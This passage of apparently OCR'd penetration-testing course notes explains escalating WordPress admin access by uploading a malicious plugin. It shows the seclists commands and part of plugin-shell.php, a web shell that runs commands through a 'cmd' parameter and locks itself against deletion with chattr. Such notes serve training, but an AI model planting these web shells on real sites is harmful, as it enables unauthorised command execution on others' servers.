 • We also find that the database is running on the 10.5.5.11 IP address, which is different than the one we are currently targeting.
 
• This is not unusual as databases and web applications are often run on separate servers.
 
•  Now that we have gathered some basic information, we can attempt to elevate our access. 

• One convenient aspect of having administrative access to WordPress is that we can install our own plugins. 

• Plugins in WordPress are written in PHP and do not have many limitations.

• For example,we could upload a plugin that contains a PHP reverse shell or code execution capabilities.

• Fortunately, others have already created malicious plugins just for this purpose.
 
• One such plugin can be found in the seclists package, which can be installed in Kali with apt.
 
 kali@kali:~$ sudo apt install seclists
 
• Once installed, the seclist directory can be found in 
 /usr/share/seclists and the file that we are looking for can be found in Web-Shells/WordPress.
 
 kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress

kali@kali:/usr/share/seclists/Web-Shells/WordPress$ ls
bypass-login.php plugin-shell.php
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/28.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/29.jpg)
 
• The specific file we are looking for is plugin-shell.php.

• Let’s quickly inspect it and find out what it does.

```sh
1 <?php
2 /*
3 Plugin Name: Cheap & Nasty Wordpress Shell
4 Plugin URI: https://github.com/leonjza/wordpress-shell
5 Description: Execute Commands as the webserver you are serving wordpress with!
Shell will probably live at /wp-content/plugins/shell/shell.php. Commands can be given
using the 'cmd' GET parameter. Eg: "http://192.168.0.1/wp-content/plugins/shell/shell.
php?cmd=id", should provide you with output such as <code>uid=33(www-data) gid=verd33(
www-data) groups=33(www-data)</code>
6 Author: Leon Jacobs
7 Version: 0.3
8 Author URI: https://leonjza.github.io
9 */
```
 
•  Lines 2-9 in Listing 875 are comments that are required for WordPress to recognize the file as aplugin.
 
 11 # attempt to protect myself from deletion
12 $this_file = __FILE__;
13 @system("chmod ugo-w $this_file");
14 @system("chattr +i $this_file");
 